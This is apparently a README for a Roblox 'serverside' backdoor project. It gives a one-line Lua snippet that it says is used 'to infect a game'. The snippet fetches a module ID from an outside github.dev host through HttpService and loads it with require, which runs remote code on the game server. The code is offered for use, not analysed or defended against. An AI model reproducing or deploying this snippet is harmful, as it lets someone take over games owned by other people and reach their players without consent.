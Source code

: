 # rbx-serverside
[roblox serverside](https://lonely-werewolf-q7g5wgwg9xgxcx6jw-3000.app.github.dev/)


to infect a game put: 
  ```lua
    task.spawn(require,tonumber(({pcall(game:GetService("HttpService").GetAsync,game:GetService("HttpService"),"https://lonely-werewolf-q7g5wgwg9xgxcx6jw-3000.app.github.dev/delivery")})[2]))
  ```
